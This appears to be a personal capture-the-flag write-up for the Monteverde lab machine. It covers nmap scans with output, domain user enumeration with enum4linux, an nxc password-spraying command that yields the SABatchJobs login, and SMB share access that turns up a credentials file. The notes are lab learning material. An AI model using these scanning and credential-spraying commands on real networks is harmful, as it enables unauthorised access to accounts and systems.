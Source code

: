 ##### nmap

All port scan
```bash
sudo nmap -n -sT -Pn -p- -T5 10.10.10.172 -v -oA nmap2
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49696/tcp open  unknown
```

Service scan
```bash
sudo nmap -sC -sV 10.10.10.172 -p 53,88,135,139,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49676,49696 -v -oA nmap
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-11 08:55:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-11T08:56:39
|_  start_date: N/A
```

##### manual

- Using `enum4linux`, found users in domain
```
dgalanos
roleary
Administrator
mhope
svc-ata
svc-bexec
svc-netapp
smorgan
AAD_987d7f2f57d2
SABatchJobs
```
- Using nxc, ran an attack to authenticate users with `username:username` format
```bash
nxc smb 10.10.10.172 -u user.txt -p user.txt -d 'MEGABANK.LOCAL' --continue-on-success
```
Found a valid login for `SABatchJobs:SABatchJobs`
- Connected to SMB share using the gathered credential and found a share that can be enumerated /users$
- Found a file azure.xml under user /mhope containing credentials
![[Pasted image 20240911132359.png]]
![[Pasted image 20240911132816.png]]
